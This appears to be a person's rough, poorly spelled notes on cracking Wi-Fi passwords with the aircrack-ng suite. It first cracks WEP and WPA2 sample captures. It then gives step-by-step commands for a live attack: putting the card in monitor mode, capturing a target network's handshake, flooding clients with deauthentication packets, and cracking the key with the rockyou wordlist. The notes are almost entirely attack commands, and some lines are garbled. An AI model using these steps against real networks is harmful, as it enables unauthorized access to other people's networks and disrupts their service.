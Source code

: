# WIRELESS NETOWORK HACKING

wep this is

 first copy that file and put it on desktop and open the terminal

sudo  and go to root

aircrack-ng '/home/attacker/Desktop/Sample Captures/WEPcrack-01.cap'
 
 # now bssid not give wpap2 means

first copy that file and put it on desktop and open the terminal

sudo  and go to root

come ho home 

aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap' 

 if this not work means

# Another Method
iwconfig for checking

enable

 airmon-ng start wlan0

airmon-ng start wlan0

sudo kill all with id

 now do iwconfig

airodump -ng wlan0mon

airodump -ng -c 6 --bssid bssid wher it was showing to hack -w pas wlan0mon

new terminal

aireplay-ng -0 100 -a  bssid wlan0mon

now go back to terminal previous

after both stop ctrl c

next locate file

locate rockyou

gunzip (paste last with txt.gz)

ls

to check and get the pass file with cap

next

aircrack-ng -w /usr/share/wordlists/rockyou.txt -b bssid pass*.cap file name

after words key found

 
